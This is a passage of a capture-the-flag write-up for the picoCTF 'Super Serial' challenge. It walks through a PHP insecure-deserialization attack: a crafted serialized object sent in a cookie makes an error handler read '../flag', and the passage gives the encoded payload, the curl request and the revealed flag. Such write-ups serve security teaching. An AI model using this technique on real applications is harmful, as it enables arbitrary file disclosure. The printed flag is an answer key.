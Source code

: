 We instantiate an `access_log` object with `../flag`, which sets `$this->log_file = "../flag"`. Then we serialize the object and feed it to the server via the cookie.

The server will try to run:

```php
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
$g = $perm->is_guest();
$a = $perm->is_admin();
```

The first line will create an `access_log` with `$this->log_file = "../flag"`, but the second line will throw an exception since this object doesn't have an `is_guest` method. What happens when the exception is thrown? It's caught by:

```php
catch(Error $e){
	die("Deserialization error. ".$perm);
}
```

This code prints an error message and appends the object to it, causing `access_log.__toString()` to be called:

```php
function __toString() {
	return $this->read_log();
}
```

Which in turn calls:

```php
function read_log() {
	return file_get_contents($this->log_file);
}
```

This should give us the flag.

Let's see it in action:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Super_Serial]
└─$ php -e solve.php
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

We send this as the cookie and get:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Super_Serial]
└─$ curl http://mercury.picoctf.net:3449/authentication.php -H "Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9;"
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```

The flag: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}`